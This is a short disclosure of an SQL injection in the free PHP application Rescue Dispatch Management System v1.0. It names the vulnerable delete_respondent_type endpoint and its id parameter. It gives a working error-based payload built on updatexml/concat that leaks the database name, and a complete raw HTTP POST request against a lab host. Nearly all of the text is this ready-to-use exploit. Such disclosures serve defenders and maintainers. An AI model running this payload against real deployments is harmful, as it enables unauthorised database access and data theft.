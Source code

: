 # Rescue Dispatch Management System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15296/rescue-dispatch-management-system-phpoop-free-source-code.html

Vulnerability File: /rdms/classes/Master.php?f=delete_respondent_type

Vulnerability location: /rdms/classes/Master.php?f=delete_respondent_type, id

[+] Payload: id=2' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

```sql
POST /rdms/classes/Master.php?f=delete_respondent_type HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.19/rdms/admin/?page=respondent_types
Content-Length: 65
Cookie: PHPSESSID=hkbchcmaitn0d8enhm4jtdjk9q
Connection: close

id=2' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/170450106-523d5988-1593-4edd-8fea-759c5eb9fc10.png)

